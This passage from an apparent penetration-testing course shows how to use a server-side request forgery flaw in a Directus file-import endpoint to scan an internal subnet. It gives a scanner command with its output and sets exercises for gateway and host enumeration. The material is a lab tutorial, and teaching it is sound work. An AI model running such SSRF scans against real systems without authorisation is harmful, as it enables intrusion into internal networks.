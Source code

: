 If you don't find any live hosts after a few minutes, consider re-running the script with a larger timeout value.

Exercises
Complete the gateway scanner script.
Run the script and detect a live gateway.
Extra Mile
Create a second script that enumerates based on host name. Try using the script to identify the live hosts.

1
(Monospace Inc, 2020), https://docs.directus.io/getting-started/introduction/ ↩︎

2
(Wikipedia, 2021), https://en.wikipedia.org/wiki/Gateway_(telecommunications)#Network_gateway ↩︎

3
(Gordon "Fyodor" Lyon, 2015), https://nmap.org/book/man-host-discovery.html ↩︎


##### Host Enumeration
Now that we've identified a live IP address, let's copy our script to a new file named ssrf_subnet_scanner.py and modify it to scan just the subnet we previously identified for live IPs. It does not matter which port number we use in this scan. We can identify live hosts even if they refuse connections on the chosen port.

kali@kali:~$ ./ssrf_subnet_scanner.py -t http://apigateway:8000/files/import --timeout 5
Trying host: 172.16.16.1
        8000     OPEN - returned 404
Trying host: 172.16.16.2
        8000     OPEN - returned 404
Trying host: 172.16.16.3
        8000     Connection refused, could be live host
Trying host: 172.16.16.4
        8000     Connection refused, could be live host
Trying host: 172.16.16.5
        8000     Connection refused, could be live host
Trying host: 172.16.16.6
        8000     Connection refused, could be live host
Trying host: 172.16.16.7
        8000     {"errors":[{"message":"connect EHOSTUNREACH 172.16.16.7:8000","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
Trying host: 172.16.16.8
        8000     {"errors":[{"message":"connect EHOSTUNREACH 172.16.16.8:8000","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
Listing 35 - Subnet scanning results

We can kill the script once we start receiving multiple "EHOSTUNREACH" errors. A quick Google search indicates this error message might mean the host couldn't find a route to a given IP address. Since we have several live hosts to work with, we can ignore any IP addresses that resulted in the "EHOSTUNREACH" error.

If you don't find any live hosts, re-run the script with a larger timeout value.

Based on the response values, we can assume the first six hosts are valid. Let's modify the script to scan for common ports on those hosts, using the same list of ports found in Listing 28. We can limit the amount of extraneous data by filtering "connection refused" messages.
